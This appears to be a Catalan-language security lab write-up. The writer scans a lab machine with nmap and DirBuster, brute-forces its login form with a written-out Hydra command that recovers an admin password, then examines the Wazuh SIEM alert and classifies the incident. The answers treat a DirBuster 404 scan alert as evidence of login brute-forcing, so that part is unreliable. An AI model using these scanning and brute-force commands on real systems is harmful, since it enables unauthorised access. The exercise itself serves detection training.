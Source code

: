 Màquines:

● Víctima: 192.168.1.41

  Aquesta màquina té el Wazuh agent enviant alertes al manager.

● Wazuh manager: 192.168.1.80

Atac:

Investiga quins ports té oberts la víctima:

```
nmap -sV -sT -O -A -p- 192.168.1.41
```

```
└──╼ $ping 192.168.1.41
PING 192.168.1.41 (192.168.1.41) 56(84) bytes of data.
64 bytes from 192.168.1.41: icmp_seq=1 ttl=64 time=4.92 ms
64 bytes from 192.168.1.41: icmp_seq=2 ttl=64 time=4.63 ms
64 bytes from 192.168.1.41: icmp_seq=3 ttl=64 time=5.00 ms
64 bytes from 192.168.1.41: icmp_seq=4 ttl=64 time=6.91 ms
64 bytes from 192.168.1.41: icmp_seq=5 ttl=64 time=5.74 ms
64 bytes from 192.168.1.41: icmp_seq=6 ttl=64 time=4.77 ms
64 bytes from 192.168.1.41: icmp_seq=7 ttl=64 time=5.55 ms
```


OWASP Dirbuster 1.0-RC1 - Web Application Brute Forcing

!["OWASP DirBuster"](images/image01.png "OWASP DirBuster")

!["OWASP DirBuster"](images/image02.png "OWASP DirBuster")


http://192.168.1.41/login.php

!["Request"](images/image03.png "Request")

Request headers:

```
Host: 192.168.1.41
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 27
Origin: http://192.168.1.41
DNT: 1
Connection: keep-alive
Referer: http://192.168.1.41/
Upgrade-Insecure-Requests: 1
```

Request body:

```
username=toni&password=toni
```

```
└──╼ $hydra -l admin -P /usr/share/wordlists/dirb/others/best1050.txt 192.168.1.41 http-post-form "/login.php:username=^USER^&password=^PASS^:invalid"

Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-03-22 17:26:49
[DATA] max 16 tasks per 1 server, overall 16 tasks, 1049 login tries (l:1/p:1049), ~66 tries per task
[DATA] attacking http-post-form://192.168.1.41:80/login.php:username=^USER^&password=^PASS^:invalid
[80][http-post-form] host: 192.168.1.41   login: admin   password: happy
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-03-22 17:27:06
```

```
login: admin   
password: happy
```


```
└──╼ $ifconfig
wlp14s0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.1.224  netmask 255.255.255.0  broadcast 192.168.1.255
        inet6 fe80::e5fc:8a3:a361:84b9  prefixlen 64  scopeid 0x20<link>
        ether 2c:d0:5a:11:92:c2  txqueuelen 1000  (Ethernet)
        RX packets 1149072  bytes 639208913 (609.5 MiB)
        RX errors 0  dropped 108  overruns 0  frame 0
        TX packets 1003188  bytes 265200301 (252.9 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

```

Aquest atac genera una alerta al Wazuh manager per cada intent fallit.

● Mostra aquesta alerta amb una captura.

!["Wazuh Security Events - Dashboard"](images/image04.png "Wazuh Security Events - Dashboard")

!["Wazuh Security Events"](images/image05.png "Wazuh Security Events")

!["Wazuh Event Info"](images/image06.png "Wazuh Event Info")

```
{
  "agent": {
    "ip": "192.168.1.41",
    "name": "dc-4",
    "id": "003"
  },
  "data": {
    "protocol": "HEAD",
    "srcip": "192.168.1.224",
    "id": "404",
    "url": "//images/alumni.php"
  },
  "rule": {
    "firedtimes": 46458,
    "mail": false,
    "level": 10,
    "pci_dss": [
      "6.5",
      "11.4"
    ],
    "tsc": [
      "CC6.6",
      "CC7.1",
      "CC8.1",
      "CC6.1",
      "CC6.8",
      "CC7.2",
      "CC7.3"
    ],
    "description": "Multiple web server 400 error codes from same source ip.",
    "groups": [
      "web",
      "accesslog",
      "web_scan",
      "recon"
    ],
    "id": "31151",
    "nist_800_53": [
      "SA.11",
      "SI.4"
    ],
    "frequency": 14,
    "gdpr": [
      "IV_35.7.d"
    ]
  },
  "full_log": "192.168.1.224 - - [23/Mar/2022:02:30:44 +1000] \"HEAD //images/alumni.php HTTP/1.1\" 404 0 \"-\" \"DirBuster-1.0-RC1 (http://www.owasp.org/index.php/Category:OWASP_DirBuster_Project)\" \"-\"",
  "id": "1647966658.533929400",
  "timestamp": "2022-03-22T16:30:58.779+0000",
  "previous_output": "192.168.1.224 - - [23/Mar/2022:02:30:44 +1000] \"HEAD /css//pepys.php HTTP/1.1\" 404 0 \"-\" \"DirBuster-1.0-RC1 (http://www.owasp.org/index.php/Category:OWASP_DirBuster_Project)\" \"-\"\n192.168.1.224 - - [23/Mar/2022:02:30:44 +1000] \"HEAD //////images/209651/ HTTP/1.1\" 404 0 \"-\" \"DirBuster-1.0-RC1 (http://www.owasp.org/index.php/Category:OWASP_DirBuster_Project)\" \"-\"\n192.168.1.224 - - [23/Mar/2022:02:30:44 +1000] \"HEAD //css/collapse_of_ussr/ HTTP/1.1\" 404 0 \"-\" \"DirBuster-1.0-RC1 (http://www.owasp.org/index.php/Category:OWASP_DirBuster_Project)\" \"-\"\n192.168.1.224 - - [23/Mar/2022:02:30:44 +1000] \"HEAD //css/bdeath/ HTTP/1.1\" 404 0 \"-\" \"DirBuster-1.0-RC1 (http://www.owasp.org/index.php/Category:OWASP_DirBuster_Project)\" \"-\"\n192.168.1.224 - - [23/Mar/2022:02:30:44 +1000] \"HEAD //css/commandingheights/ HTTP/1.1\" 404 0 \"-\" \"DirBuster-1.0-RC1 (http://www.owasp.org/index.php/Category:OWASP_DirBuster_Project)\" \"-\"\n192.168.1.224 - - [23/Mar/2022:02:30:44 +1000] \"HEAD //css/minitextlo/ HTTP/1.1\" 404 0 \"-\" \"DirBuster-1.0-RC1 (http://www.owasp.org/index.php/Category:OWASP_DirBuster_Project)\" \"-\"\n192.168.1.224 - - [23/Mar/2022:02:30:44 +1000] \"HEAD //css/inside_money/ HTTP/1.1\" 404 0 \"-\" \"DirBuster-1.0-RC1 (http://www.owasp.org/index.php/Category:OWASP_DirBuster_Project)\" \"-\"\n192.168.1.224 - - [23/Mar/2022:02:30:44 +1000] \"HEAD //css/fleas/ HTTP/1.1\" 404 0 \"-\" \"DirBuster-1.0-RC1 (http://www.owasp.org/index.php/Category:OWASP_DirBuster_Project)\" \"-\"\n192.168.1.224 - - [23/Mar/2022:02:30:44 +1000] \"HEAD //css/archer/ HTTP/1.1\" 404 0 \"-\" \"DirBuster-1.0-RC1 (http://www.owasp.org/index.php/Category:OWASP_DirBuster_Project)\" \"-\"\n192.168.1.224 - - [23/Mar/2022:02:30:44 +1000] \"HEAD ///images///5701.php HTTP/1.1\" 404 0 \"-\" \"DirBuster-1.0-RC1 (http://www.owasp.org/index.php/Category:OWASP_DirBuster_Project)\" \"-\"\n192.168.1.224 - - [23/Mar/2022:02:30:44 +1000] \"HEAD //images//////seven_wonders/ HTTP/1.1\" 404 0 \"-\" \"DirBuster-1.0-RC1 (http://www.owasp.org/index.php/Category:OWASP_DirBuster_Project)\" \"-\"",
  "manager": {
    "name": "wazuh"
  },
  "decoder": {
    "name": "web-accesslog"
  },
  "input": {
    "type": "log"
  },
  "@timestamp": "2022-03-22T16:30:58.779Z",
  "location": "/var/log/nginx/access.log",
  "_id": "zm13sn8BzZwxFN02oRTG"
}
```

● Anomena a quina taxonomia pertany aquest incident i fes-ne una breu explicació .
(https://github.com/enisaeu/Reference-Security-Incident-Taxonomy-Task-Force/blob/master/working_copy/humanv1.md)

Intrusion Attempts, Login Attempts
Diversos intents d'inici de sessió de força bruta (incloent endevinar o trencar contrasenyes). Aquest COI es refereix a un recurs, que s'ha observat per realitzar atacs de força bruta sobre un protocol d'aplicació donat.

● A quin fitxer log de la màquina víctima s’ha enregistrat l’alerta enviada al Wazuh?

```
/var/log/nginx/access.log
```

● Quin és el missatge de l’alerta que ens permet identificar l’incident?

```
192.168.1.224 - - [23/Mar/2022:02:30:44 +1000] "HEAD //images/alumni.php HTTP/1.1" 404 0 "-" "DirBuster-1.0-RC1 (http://www.owasp.org/index.php/Category:OWASP_DirBuster_Project)" "-"
```